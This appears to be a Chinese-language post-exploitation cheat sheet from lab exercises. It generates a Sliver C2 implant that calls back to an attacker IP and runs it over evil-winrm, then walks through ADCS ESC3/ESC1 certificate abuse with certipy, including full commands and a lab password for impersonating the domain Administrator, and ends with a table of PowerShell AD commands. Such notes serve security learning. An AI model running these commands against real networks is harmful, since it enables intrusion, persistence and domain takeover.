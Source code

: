 常见的C2工具有MSF的meterpreter载荷，Cobalt Strike（商业软件，业界标杆），Sliver（开源，强力替代品）等.C2用于后渗透阶段（已经获取了一个初始立足点比如一个shell），核心概念是隐蔽、持久，扩大权限并窃取数据。

我们这里使用sliver工具：

`apt install sliver`安装后包含`sliver-server`和`sliver-client`两条指令。客户端主要作用是在多人协作时，多个客户端操作员可以连接同一个服务端，协同工作。

直接运行`sliver-server`，然后使用generate生成植入物

```
[server] sliver > generate --mtls 10.10.16.19 -N puppy -O windows
```

--mtls是使用mtls协议通信，-N指定植入物名称，-O指定操作系统类型

然后通过evil-winrm或其他方式上传文件

上传后sliver运行mtls监听，winrm中运行植入物puppy.exe，成功监听到。

之后sessions查看ID，sessions -i指定ID进入交互页面。

## ADCS攻击

利用证书模板错误的权限设置。主要工具是certipy

```
certipy-ad find -dc-ip 10.10.11.71 -u Lion.SK -p '!QAZ2wsx' -stdout 
```

列举当前用户能申请的证书，然后ESC攻击，举例如下：

ESC3：名为Delegated-CRA的模板有**证书请求代理**扩展权限，可以和名为SingedUser的模板配合进行ESC3攻击：

1. **获取代理证书**：首先获得"Delegated-CRA"模板的证书请求代理证书
2. **伪造高权限身份**：使用该代理证书为"SignedUser"模板请求证书，并在请求中指定高权限用户（如域管理员）的身份

先申请一个有证书请求代理扩展权限的证书：

```
└─# certipy-ad req -dc-ip 10.10.11.71 -ca 'Certificate-LTD-CA' -template 'Delegated-CRA' -u Lion.SK -p '!QAZ2wsx'
```

然后用它代理为SingedUser模板申请一张管理员身份的证书：

```
└─# certipy-ad -debug req -dc-ip 10.10.11.71 -ca 'Certificate-LTD-CA' -template 'SignedUser' -u lion.sk@certitifcate.htb -p '!QAZ2wsx' -on-behalf-of 'CERTIFICATE\Administrator' -pfx lion.sk.pfx
```

ESC1：

申请时候直接-upn指明为admin申请证书，拿到admin证书

## 利用POWERSHELL

遇到过的指令：

| 指令                                                         | 描述                 |
| ------------------------------------------------------------ | -------------------- |
| Get-ADUser                                                   | 查看域中所有用户     |
| whoami  /all                                                 | 查看当前用户所有信息 |
| get-adgroup   -properties *                                  | 查看组的完整信息     |
| Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects | 检索被删除的对象     |
| Restore-ADObject -Identity c1f1f0fe-df9c-494c-bf05-0679e181b358 | 恢复AD对象           |
| Enable-ADAccount -Identity cert_admin                        | 启用AD账户           |
|                                                              |                      |
